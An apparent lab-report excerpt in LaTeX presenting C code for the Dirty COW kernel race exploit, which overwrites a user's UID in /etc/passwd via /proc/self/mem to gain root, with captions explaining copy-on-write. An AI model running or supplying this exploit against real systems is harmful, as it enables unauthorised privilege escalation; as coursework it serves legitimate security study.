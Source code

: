 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{figure}[h]
  \begin{lstlisting}[style=CStyle, firstnumber=22]
  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
\end{lstlisting}
  \caption{Inside \code{main}. Omitted some declarations for brevity. It's task is to find the position of the target, which we can do with read access alone, and then launch the threads. It waits for the threads to finish, but the threads run forever so the user has to manually interrupt the program to exit.}
\end{figure}

\begin{figure}[h]
  \begin{lstlisting}[style=CStyle, firstnumber=46]
void *writeThread(void *arg) {
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}
  \caption{\code{write} thread. Writes the content to the position of the target. If lucky, this will be conducted on the memory that is supposed to be used by madvise.}
\end{figure}

\begin{figure}[h]
  \begin{lstlisting}[style=CStyle, firstnumber=61]
void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
    madvise(map, file_size, MADV_DONTNEED);
  }
}
\end{lstlisting}
  \caption{\code{madvise} thread. A system call to cause copy-on-write (COW).}
\end{figure}

When we call these two threads (figures 4 and 5) there is a chance that the write will actually write to the mapped memory that is used by madvise in a COW fashion. COW is a technique of sharing a resource: when the resourse is required but will not be modified, then it is wasteful to create a copy, but what should happen is that the resource itself is delivered. At this point, if the write thread can intercept the memory it can write to it. Since we may not always be lucky and achieve this in a single function call, the threads run forever and the attack is interrupted by the adversary. In my own case, I ran it for around 5-6 seconds and it was always successful.
\end{document}
